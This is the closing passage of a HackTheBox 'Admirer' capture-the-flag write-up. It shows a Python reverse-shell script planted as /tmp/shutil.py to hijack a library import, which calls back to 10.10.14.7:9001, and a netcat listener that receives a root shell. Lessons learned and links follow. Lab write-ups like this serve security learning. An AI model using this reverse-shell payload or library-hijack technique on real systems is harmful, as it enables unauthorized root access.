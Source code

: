 ```none
echo -e '#!/usr/bin/python3\n\nimport sys,socket,os,pty\n\ns=socket.socket()\ns.connect(("10.10.14.7",9001))\n[os.dup2(s.fileno(),fd) for fd in (0,1,2)]\npty.spawn("/bin/sh")\n' > /tmp/shutil.py
```

Ran the script again, after creating a netcat listener.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.187] 46484
# id
id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Start using more modern wordlists for fuzzing such as raft from SecLists
- Python library hijacking was a new an interesting privesc method for me

## Useful Resources

- [HackTheBox - Admirer by ippsec](https://www.youtube.com/watch?v=_zMg0fHwwfw)
- [HTB: Admirer by 0xdf](https://0xdf.gitlab.io/2020/09/26/htb-admirer.html)
